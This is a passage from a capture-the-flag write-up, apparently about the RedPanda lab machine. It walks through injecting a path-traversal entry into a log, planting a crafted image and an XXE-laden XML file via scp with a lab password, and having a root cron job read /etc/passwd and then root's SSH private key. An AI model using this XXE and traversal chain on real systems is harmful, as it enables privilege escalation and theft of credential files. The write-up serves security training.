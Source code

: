 I’ll write a log that points to my image file:

```

woodenk@redpanda:/opt/panda_search$ echo "412||ip||ua||/../../../../../../tmp/0xdf.jpg" >> redpanda.log

```

#### Execute

I’ll upload the two files I created into `/tmp` using `scp` with the creds identified in the web source (though I could also just use a Python webserver and `wget` just as easily):

```

oxdf@hacky$ sshpass -p RedPandazRule scp 0xdf.jpg woodenk@10.10.11.170:/tmp/
oxdf@hacky$ sshpass -p RedPandazRule scp 0xdf_creds.xml woodenk@10.10.11.170:/tmp/

```

The next time the cron runs, it will parse that log, and the `uri` variable will be `/../../../../../../tmp/0xdf.jpg`. That will be used to build a path which is `/opt/panda_search/src/main/resources/static/../../../../../../tmp/0xdf.jpg`, which is effectively `/tmp/0xdf.jpg`.

The program will then read the artist metadata from that image as `../tmp/0xdf` to build the path `/credits/../tmp/oxdf_creds.xml`.

It will load that XML file, and on doing so, the entity in it, reading in the contents of `/etc/passwd`. Then it will increment the `views` field, and write the results back to the same file.

After the next run, I’ll see the results in the file:

![image-20221122085057394](https://0xdfimages.gitlab.io/img/image-20221122085057394.png)

### Shell

#### Collect SSH Key

With the ability to read files as root, I could just read the flag, but in interest of getting a shell, I’ll try to read root’s SSH key. I’ll update the XXE to target the default key name:

```

...[snip]...
<!DOCTYPE root [
<!ENTITY foo SYSTEM 'file:///root/.ssh/id_rsa'>]>
...[snip]...

```

Copy that file up to RedPanda:

```

oxdf@hacky$ sshpass -p RedPandazRule scp 0xdf_creds.xml woodenk@10.10.11.170:/tmp/

```
